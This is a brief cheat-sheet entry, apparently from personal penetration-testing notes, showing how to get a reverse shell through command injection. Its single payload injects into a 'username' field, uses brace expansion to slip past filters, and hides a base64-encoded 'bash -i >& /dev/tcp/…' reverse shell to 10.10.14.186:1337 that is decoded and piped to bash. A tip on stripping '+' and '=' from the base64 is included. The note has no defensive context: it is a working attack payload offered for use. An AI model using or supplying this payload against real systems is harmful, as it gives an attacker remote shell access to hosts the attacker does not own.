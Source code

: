 # Rev Shell inside Command Injection

#### RevShell with Brace Expansion Technique and encoded in base64

```
host=10.10.14.186&username=;{echo,-n,YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTg2LzEzMzcgICAwPiYxKysK}|{base64 -d}|bash;
```

Note: It's important to remove all "+" and "=" in a base64 string.
